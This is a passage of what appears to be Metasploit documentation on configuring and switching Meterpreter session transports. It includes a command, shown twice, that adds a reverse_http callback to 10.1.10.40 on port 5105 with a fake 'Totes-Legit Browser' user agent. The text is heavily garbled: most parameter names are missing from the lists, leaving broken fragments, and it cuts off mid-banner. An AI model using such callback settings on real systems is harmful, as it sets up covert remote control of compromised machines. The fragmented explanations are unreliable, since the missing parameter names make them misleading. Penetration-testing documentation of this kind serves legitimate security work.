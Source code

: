 ## On this page
## Transport configuration
## The `transport` command
The following output shows the current help text for the `transport` command:
```msf
meterpreter > transport add -t reverse_http -l 10.1.10.40 -p 5105 -T 50000 -W 2500 -C 100000 -A "Totes-Legit Browser/1.1"
[*] Adding new transport ...
[+] Successfully added reverse_http transport.
```

`msf
meterpreter > transport add -t reverse_http -l 10.1.10.40 -p 5105 -T 50000 -W 2500 -C 100000 -A "Totes-Legit Browser/1.1"
[*] Adding new transport ...
[+] Successfully added reverse_http transport.
`

` command. Here's a deeper explanation of the parameters:

* The `

` because Meterpreter always uses the WinHTTP API behind the scenes anyway.
* The `

` parameter.
* The `

` parameter.
* The `

`.
* The `

`.
* The `

`. The measure of this value is in seconds and should be a positive integer.
* The `

` specifies a custom user agent that is used for HTTP requests.

It is also possible to specify the following:

* The `

`) value that is prepended to the UUID URI that is used for all requests. This URI value helps segregate listeners and payloads based on a URI.
* The `

` option specifies a proxy host/IP. This parameter is optional.
* The `

`.
* The `

` is set.
* The `

` option specifies the username to use to authenticate with the proxy. This parameter is optional.
* The `

` option specifies the password to use to authenticate with the proxy. This parameter is optional.
* The `

` option specifies the overall Meterpreter session timeout value. While this value is not transport-specific, the option is provided here so that it can be set alongside the other transport-specific timeout values for ease of use.
* Finally the `

`

Note that these examples only add new transports, they do not change the current transport mechanism. When a transport is added to the list of transports, they are always added at the _end_ of the list, and not the start.

### Change transports

There are three different ways to change transports. One thing they do have in common is that transport switching assumes that you have listeners set up to receive the connections. If no listener or handler is present, then the resiliency features in Meterpreter will cause it to constantly attempt to establish connectivity on that transport using the transport timeout values that were configured. If the transport ultimately fails, then Meterpreter will cycle to the next transport on the list and try again. This will continue until a transport connection is successful, or the session timeout expires. More information on this can be found in the **session resiliency documentation** (link coming soon).

The three different ways to change transports are:

* `

` - This command will cause Meterpreter to shut down the current transport, and attempt to reconnect to Metasploit using the next transport in the list of transports.
* `

`, except that it will move to the previous transport on the list, and not the next one.
* `

` in that it takes a subset of the parameters, and then adds a new one on top of it:

* `

` - The transport type.
* `

`).
* `

` value.
* `

`msf
./msfconsole -r ~/msf.rc
[*] Starting the Metasploit Framework console...|
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`


